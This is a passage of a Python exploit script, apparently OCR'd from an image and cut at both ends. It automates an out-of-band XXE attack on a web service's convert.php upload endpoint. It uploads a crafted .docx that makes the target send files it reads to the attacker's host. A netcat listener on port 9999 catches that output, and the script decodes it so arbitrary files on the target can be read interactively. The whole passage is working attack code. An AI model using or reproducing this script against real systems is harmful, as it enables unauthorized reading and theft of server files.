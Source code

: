 ```py
    f.write(payload)
    f.close()

# Function to upload the zip file
def uploadZip(rhost):
    url = "http://%s:80/convert.php" %rhost
    multipart_data = {
        'userfile': ('xee.doc', open('xee.docx', 'rb'), "application/vnd.openxmlformats-officedocument.wordprocessingml.document"),
        'submit' : (None,"Generate pdf")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Just b64 decode
def b64d(s):
    return base64.b64decode(s).decode()

# Function to just read the get.txt file and convert it
def readFile():
    f = open('get.txt','r')
    output= f.read()
    if len(output) < 5:
        print("[+] File does not exist or I can't read it!! ")
    else:
        b64encoded = re.search(' .* ', output).group(0)
        b64encoded = b64encoded.removeprefix(" /")
        print()
        print(b64d(b64encoded))

# Function to read the xee
def xeeLFI(lhost,rhost):
    prepareDoc(lhost)
    prefix = "Reading file: "
    file = ""
    while True:
        file = input(prefix)
        if file != "exit":
            createWrapper(lhost,file)
            os.system('nc -q 3 -lnvp 9999 > get.txt 2>/dev/null &')
            os.system("sleep 2")
            uploadZip(rhost)
            os.system("sleep 2")
            readFile()
        else:
            print("[+] Exitttttting..... !!!! [+]")
            break

# Let's clean the files created
def cleanMess():
    os.system("rm -r Doc")
    os.system("rm get.txt")
    os.system("rm xee.docx")
    os.system("rm wrapper.dtd")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local IP Address', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
```